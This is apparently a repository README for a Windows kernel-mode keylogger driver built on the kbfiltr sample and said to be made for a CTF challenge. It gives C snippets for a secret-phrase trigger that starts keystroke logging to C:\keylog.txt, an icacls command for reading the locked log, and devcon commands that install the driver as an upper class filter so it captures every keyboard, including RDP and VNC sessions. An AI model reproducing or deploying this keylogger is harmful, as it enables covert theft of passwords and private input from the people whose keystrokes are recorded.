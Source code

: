 # kbfiltr-keylogger
A KMDF Keylogger Driver for Windows built on `kbfiltr`

## About
Created for a CTF-related challenge.

Based on the [kmdf-keylogger](https://github.com/adapiekarska/kmdf-keylogger) by Adrianna Piekarska

Tested on Server 2022 / Windows 11

## Keyboard Mapping
The mapping in `keytable` is to my keyboard, it may need to be adjusted for your own purposes. Set a breakpoint (`__debugbreak()`) in `WriteWorkItem` and step through to see your keystrokes and map them.

## Logging
### Activation
There is a check in `WriteWorkItem` that will initiate writing to a file. This string can be changed to your own secret combination, however, it must fit in the 32 byte buffer to be checked. If the buffer is not aligned, you may run into issues or need to keep trying the string until it activates. You can increase the buffer at `LOG_TRIGGER_POINT`.

Also, if you want to match your secret string in both local and virtual sessions, you must match the 'press' and 'release' for local and 'press' only for virtual.
```c
char target_string[] = "aw3s0m3,d00d";
char target_string2[] = "aaww33ss00mm33,,dd0000dd";
  
if (strstr(secretBuffer, target_string) != NULL)
{
	WriteToLogFile = WorkingLogging;
	//clear secretBuffer to start checking again
	memset(secretBuffer, 0, sizeof(secretBuffer));
}
else if (strstr(secretBuffer, target_string2) != NULL)
{
	WriteToLogFile = WorkingLogging;
	//clear secretBuffer to start checking again
	memset(secretBuffer, 0, sizeof(secretBuffer));
}
```

If you do not want activation, remove the check and move `WriteToLogFile = WorkingLogging` to the main `strcat` call
```c
if (scancode >= 0 && scancode < SZ_KEYTABLE)
{
  strcat(secretBuffer, asciiRepr);
    WriteToLogFile = WorkingLogging;
  }
}
```

### Viewing Log
The log can be locked by the DACL on creation (not default) but can be changed to view during use with `icacls`
```bash
icacls `"C:\keylog.txt`" /grant:r `"Administrators`":f
```

To change the DACL to well known groups, use [`SeExports`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/ns-ntifs-_se_exports) under the `RtlAddAccessAllowedAce` call.

## File DACL/ACE
For my purposes I didn't require the DACL/ACE functions but I've left them in the code in case anyone needs them in the future.

## `ZwFileCreate`/`ZwFileWrite`
I fixed up the file creation/write routines so the file is accessible after each write, rather than needing to unload the file for users to access it. This, again, can be changed if required or a specific DACL/ACE set.

## Installation
Install with devcon. If required, change the device name in `keylogger.inx` and in the command to attach to another device.
```bash
.\devcon.exe install .\keylogger.inf "*PNP0303"
```

If you want to filter keystrokes from all keyboard drivers (including RDP/VNC) you must install it as a class filter above the default `kbdclass`
```
.\devcon.exe /r classfilter keyboard upper -keylogger
```

## Bugs
There are probably several.

For some reason the load function triggers more than once, installing it multiple times. Didn't matter for my use (OPSEC not required) but if someone has a fix, feel free to raise an issue.
